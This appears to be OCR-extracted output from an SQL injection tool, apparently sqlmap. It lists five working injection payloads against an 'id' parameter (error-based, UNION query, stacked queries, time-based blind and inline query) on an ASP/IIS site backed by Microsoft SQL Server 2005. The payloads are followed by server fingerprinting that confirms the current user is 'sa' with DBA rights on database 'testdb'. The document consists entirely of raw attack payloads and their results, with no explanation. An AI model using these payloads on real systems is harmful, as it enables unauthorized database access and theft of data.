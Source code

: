 ```
    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause
    Payload: id=1 AND 4847=CONVERT(INT,(CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) (SELECT (CASE WHEN (4847=4847) THEN CHAR(49) ELSE CHAR(48) END)) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58)))
 
    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) CHAR(70) CHAR(79) CHAR(118) CHAR(106) CHAR(87) CHAR(101) CHAR(119) CHAR(115) CHAR(114) CHAR(77) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58)--
 
    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries
    Payload: id=1; WAITFOR DELAY '0:0:5'--
 
    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind
    Payload: id=1 WAITFOR DELAY '0:0:5'--
 
    Type: inline query
    Title: Microsoft SQL Server/Sybase inline queries
    Payload: id=(SELECT CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) (SELECT (CASE WHEN (6382=6382) THEN CHAR(49) ELSE CHAR(48) END)) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58))
---
web server operating system: Windows XP
web application technology: ASP, Microsoft IIS 5.1
back-end DBMS operating system: Windows XP Service Pack 2
back-end DBMS: Microsoft SQL Server 2005
banner:
---
Microsoft SQL Server 2005 - 9.00.1399.06 (Intel X86)
    Oct 14 2005 00:33:37
    Copyright (c) 1988-2005 Microsoft Corporation
    Express Edition on Windows NT 5.1 (Build 2600: Service Pack 2)
---
current user:    'sa'
current database:    'testdb'
current user is DBA:    True
 
[*] shutting down at 11:25:52
```